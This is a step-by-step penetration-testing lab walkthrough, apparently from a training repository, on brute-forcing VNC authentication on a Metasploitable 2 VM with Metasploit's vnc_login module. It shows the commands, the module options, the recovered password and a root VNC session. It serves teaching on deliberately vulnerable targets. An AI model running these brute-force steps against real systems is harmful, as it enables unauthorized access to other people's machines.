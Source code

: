 # VNC Brute Force Login

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Metaploitable 2 | The Metasploitable 2 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Metasploitable 2 IP | The IP address of the Metasploitable 2 VM. In my case it is 192.168.8.142. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Search for the appropriate module

`search vnc_login`

```
Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/vnc/vnc_login                   normal  No     VNC Authentication Scanner
```

### 3. Use the module

`use auxiliary/scanner/vnc/vnc_login`

### 4. Check the module options

`options`

```
Module options (auxiliary/scanner/vnc/vnc_login):

   Name              Current Setting                                  Required  Description
   ----              ---------------                                  --------  -----------
   BLANK_PASSWORDS   false                                            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                             no        Skip existing credentials stored in the current database (Accepted: none, user, user&re
                                                                                alm)
   PASSWORD                                                           no        The password to test
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/  no        File containing passwords, one per line
                     vnc_passwords.txt
   Proxies                                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                                                                metasploit.html
   RPORT             5900                                             yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                            yes       Stop guessing when a credential works for a host
   THREADS           1                                                yes       The number of concurrent threads (max one per host)
   USERNAME          <BLANK>                                          no        A specific username to authenticate as
   USERPASS_FILE                                                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                            no        Try the username as the password for all users
   USER_FILE                                                          no        File containing usernames, one per line
   VERBOSE           true                                             yes       Whether to print output for all attempts
```

### 5. Set the appropriate options

`set RHOSTS 192.168.8.142`

```
RHOSTS => 192.168.8.142
```

### 6. Run the exploit

`exploit`

```
[*] 192.168.8.142:5900    - 192.168.8.142:5900 - Starting VNC login sweep
[+] 192.168.8.142:5900    - 192.168.8.142:5900 - Login Successful: :password
[*] 192.168.8.142:5900    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 7. Connect via-VNC with discovered password

Use `vncviewer` to connect to the target machine.

`vncviewer 192.168.8.142`

```
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password:
```

Enter the correct password.

After the correct password is inserted, you’ll connect via-VNC to the target.

```
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
```

![](assets/vnc01.png)

# Video

Video that resumes everything on this laboratory.

![](assets/vncbruteforce.gif)

# Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?
4. Try to learn more about this vulnerability.